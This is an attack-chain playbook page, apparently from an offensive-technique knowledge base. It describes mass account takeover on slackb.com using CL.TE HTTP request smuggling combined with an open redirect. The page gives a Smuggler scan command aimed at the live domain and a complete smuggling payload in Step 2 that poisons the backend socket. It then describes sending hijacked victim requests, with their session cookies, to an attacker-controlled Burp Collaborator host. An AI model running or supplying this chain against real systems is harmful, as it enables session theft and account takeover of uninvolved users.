

---
tags:
  - http-request-smuggling
  - open-redirect
  - cookie-theft
  - account-takeover
type: attack_chain
tools:
  - '[[tools/Smuggler]]'
  - '[[tools/Burp-Suite]]'
  - '[[tools/Burp-Collaborator-Client]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Credential Access]]'
commands:
  - '[[commands/smuggler-discover-vuln]]'
  - '[[commands/http-smuggling-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Discover-CL.TE-HTTP-Request-Smuggling-Vulnerability]]'
  - '[[procedures/Exploit-HTTP-Request-Smuggling-to-Poison-Backend-Socket]]'
  - '[[procedures/Hijack-Victim-Requests-and-Trigger-Open-Redirect]]'
  - '[[procedures/Capture-Leaked-Session-Cookies]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Web Session Cookie]]'
description: >-
  Exploits a CL.TE HTTP Request Smuggling vulnerability combined with an open
  redirect to leak session cookies and enable mass account takeovers.
skill_level: intermediate
impact_level: high
id: 101cd278-dccd-4842-99d0-b3528d8d6991
created_at: '2025-12-11T06:10:40.112Z'
updated_at: '2025-12-11T06:10:40.112Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
  - '[[TA0006]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1539]]'
---
# Mass Account Takeover via HTTP Request Smuggling and Open Redirect on Slack

Multi-stage attack chain demonstrating exploitation of HTTP Request Smuggling on slackb.com to poison backend sockets, hijack victim requests, trigger open redirects, and leak session cookies for account takeovers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Smuggler]]
- [[tools/Burp-Suite]]
- [[tools/Burp-Collaborator-Client]]

### Target Environment

- Target OS/Platform: Web
- Required services/ports: HTTPS on port 443
- Network access requirements: Direct access to https://slackb.com

### Initial Access Requirements

- Credential requirements: None
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Reconnaissance - [[procedures/Discover-CL.TE-HTTP-Request-Smuggling-Vulnerability]]

**Procedure**: [[procedures/Discover-CL.TE-HTTP-Request-Smuggling-Vulnerability]]

**Objective**: Identify the HTTP Request Smuggling vulnerability of type CL.TE on the target.

**Expected Output**: Output from Smuggler indicating desync in tests like 'space1'.

**Success Indicators**:
- Detection of CL.TE desync where frontend uses Content-Length and backend uses Transfer-Encoding.
- Confirmation of vulnerability via tool output.

First, run the Smuggler tool to test for vulnerabilities using [[commands/smuggler-discover-vuln]]:

```bash
smuggler -u https://slackb.com
```

Review the output for failures indicating desync, such as in the 'space1' test.

### Step 2: Socket Poisoning - [[procedures/Exploit-HTTP-Request-Smuggling-to-Poison-Backend-Socket]]

**Procedure**: [[procedures/Exploit-HTTP-Request-Smuggling-to-Poison-Backend-Socket]]

**Objective**: Craft and send a payload to poison the backend socket with a malformed Transfer-Encoding header.

**Expected Output**: Successful poisoning leading to desync, with no immediate response but setup for hijacking.

**Success Indicators**:
- Payload accepted without errors.
- Subsequent victim requests are affected.

Use Burp Suite Repeater to send the malicious payload using [[commands/http-smuggling-payload]]:

```http
GET / HTTP/1.1
Transfer-Encoding : chunked
Host: slackb.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET <URL> HTTP/1.1
X: X
```

Replace <URL> with your Burp Collaborator URL. This prepends data to victim requests.

### Step 3: Request Hijacking - [[procedures/Hijack-Victim-Requests-and-Trigger-Open-Redirect]]

**Procedure**: [[procedures/Hijack-Victim-Requests-and-Trigger-Open-Redirect]]

**Objective**: Allow the poisoned socket to hijack incoming victim requests, forcing them into a GET request that triggers a 301 open redirect.

**Expected Output**: Backend interprets hijacked request as GET to attacker URL, redirecting with cookies.

**Success Indicators**:
- Observation of redirected requests in Collaborator.
- Leaked cookies include critical 'd' cookie.

No direct command; monitor for victim interactions post-poisoning. The backend will respond with 301 to the attacker's URL, including Slack cookies.

### Step 4: Cookie Exfiltration - [[procedures/Capture-Leaked-Session-Cookies]]

**Procedure**: [[procedures/Capture-Leaked-Session-Cookies]]

**Objective**: Receive and log the leaked cookies from the redirected requests on the attacker's server.

**Expected Output**: Incoming requests to Burp Collaborator containing victim cookies and IP.

**Success Indicators**:
- Receipt of session cookies like 'd'.
- Potential for account takeover using leaked credentials.

Poll the Burp Collaborator Client for interactions. No specific command, but check the client interface for logged requests.

## Attack Chain Summary

### Key Achievements

1. Discovery of CL.TE smuggling vulnerability.
2. Poisoning of backend socket to hijack requests.
3. Triggering open redirect to leak cookies.
4. Enabling mass account takeovers.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Credential Access]]

*Last updated: [TIMESTAMP]*
